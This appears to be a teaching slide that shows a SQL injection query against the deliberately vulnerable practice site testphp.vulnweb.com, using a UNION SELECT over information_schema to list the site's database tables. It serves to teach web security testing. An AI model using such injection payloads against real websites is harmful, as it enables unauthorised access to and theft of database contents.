

# INPUT AND RESULT
Use the query:

http://testphp.vulnweb.com/product.php?pic=-1 union select all 1,2,3,4,5,6,group_concat(table_name),8,9,10,11 from information_schema.tables where table_schema=database()--

Result: We get the tables from the database of the website.